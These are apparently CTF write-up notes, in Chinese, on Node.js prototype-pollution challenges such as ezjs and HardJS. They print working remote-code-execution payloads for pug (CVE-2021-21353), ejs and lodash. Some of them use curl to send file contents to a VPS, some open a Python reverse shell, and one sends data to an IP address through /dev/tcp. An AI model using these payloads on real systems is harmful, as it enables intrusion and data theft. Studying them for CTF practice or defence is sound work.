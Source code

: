##### [巅峰极客 2021]ezjs

https://miaotony.xyz/2021/08/07/CTF_2021dianfengjike/#toc-heading-5

不过这里不能直接传json，用urlencode

```
username=amiz&password=amiz&"].__proto__["isadmin=amiz&"].__proto__["debug=amiz
```

所以就不需要反斜杠什么的去转义json了

污染admin和debug之后成为用admin的cookie打pug的getshell，有CVE-2021-21353

```
/admin?p=');process.mainModule.constructor._load('child_process').exec('whoami');_=('
```

```
curl -F "file=`ls -al /|base64`" http://VPS
curl -F "file=`tac /root/flag.txt`" http://VPS
```

curl外带，或者python shell

```
/admin/?p=');process.mainModule.constructor._load('child_process').exec('python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'vps\',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\'/bin/bash\',\'-i\']);"');_=('
```

#### ejs(<=3.1.6) + lodash

```
payload="ee;return process.mainModule.require('child_process').execSync('cat /flag && echo successed').toString();//"
```

##### [XNUCA2019Qualifier]HardJS

https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/hardjs

前端和后端分别存在原型污染的漏洞，前端的问题来自于ejs的经典`outputFunctionName`（或者`escapeFunction`）

![image-20220426173627138](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220426173627138.png)

后端的问题来自于lodash.defaultsDeep

![image-20220426173612125](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220426173612125.png)

知道漏洞点了，我们如何利用呢？

前端的ejs直接弹shell

```json
{"type":"test","content":{"constructor":{"prototype":
{"outputFunctionName":"a=1;process.mainModule.require('child_process').exec('bash -c \"echo $FLAG>/dev/tcp/101.35.114.107/8426\"')//"}}}}
```
